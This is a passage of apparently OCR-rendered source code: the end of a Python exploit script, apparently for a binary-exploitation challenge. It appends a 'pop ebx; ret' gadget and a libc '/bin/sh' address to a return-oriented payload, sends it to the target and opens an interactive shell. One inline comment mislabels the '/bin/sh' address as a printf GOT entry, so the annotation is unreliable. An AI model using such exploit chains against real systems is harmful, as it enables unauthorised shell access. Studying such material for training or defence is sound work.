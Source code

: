 ```python
payload += p32(_pop_ebx_ret)    # POP to clean up the arg and jump to the next stage
payload += p32(_binsh_libc)     # printf GOT's entry

io.sendlineafter(b"?", payload)

io.interactive()
io.close()
```